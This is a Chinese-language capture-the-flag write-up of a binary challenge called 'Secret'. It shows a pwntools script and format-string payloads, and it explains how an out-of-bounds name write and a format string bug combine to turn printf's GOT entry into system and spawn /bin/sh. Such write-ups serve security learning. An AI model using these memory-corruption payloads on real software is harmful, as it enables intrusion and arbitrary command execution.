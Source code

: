 # Secret

一个密码机，要连续输入100次secrest才能get flag。。。显然是唬人的

![sn2I8r](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/sn2I8r.png)



![adfasfdasfasf](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/adfasfdasfasf.png)

![9b0ViT](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/9b0ViT.png)

输入的函数会进行对比，对比细节在0x40136D这个超长函数中，实际上，基本都是重复，唯一的区别就是每次的值不一样。

![image-20200321174114753](/Users/migraine/Library/Application Support/typora-user-images/image-20200321174114753.png)

输入name的时候，有个越界，可以把记数用的内存覆盖掉。。。不过这个漏洞似乎并没有什么用？

![image-20200321172737950](/Users/migraine/Library/Application Support/typora-user-images/image-20200321172737950.png)

```python
#!/usr/bin/python
from pwn import *
p=process("./secret.dms")
gdb.attach(p,"b *0x46a396")

p.sendline(p64(0x0)+"\x00"*0x8+p32(0x46d080))

p.recvuntil('Secret:')
#p.sendline(str(18283))

p.interactive()

'''
>>> print 0x476b
18283

'''
```

发现原来还有个格式化字符串漏洞?

![YiiMNz](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/YiiMNz.png)

![ngfPo8](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/ngfPo8.png)



```
>>> fmtstr_payload(6, {0x46d030:0x12334})
'0\xd0F\x001\xd0F\x002\xd0F\x003\xd0F\x00%36c%6$hhn%239c%7$hhn%222c%8$hhn%255c%9$hhn'
```

payload得改

```
target=0x46d030
value=0x12334
payload="%"+str(value)+"c%6$lln"+p64(target)
```

不知道这个格式化字符串能不能用，后来看了WP，发现是两个洞结合的。。

***这个真的是一个很有意思的思路***

修改存放计数的times内存，在buf中写入/bin/sh

每次循环times内存都会减少1，所以把times修改为printf的got表地址，因为printf和system的值想差10.

让printf的got表值减少10次，执行printf正好会执行system。

退出循环，执行printf(buf)，实际上会执行system("/bin/sh")



或者真的跑完。。用IDA生成asm，然后取值

https://blog.csdn.net/qq_43116977/article/details/105041308

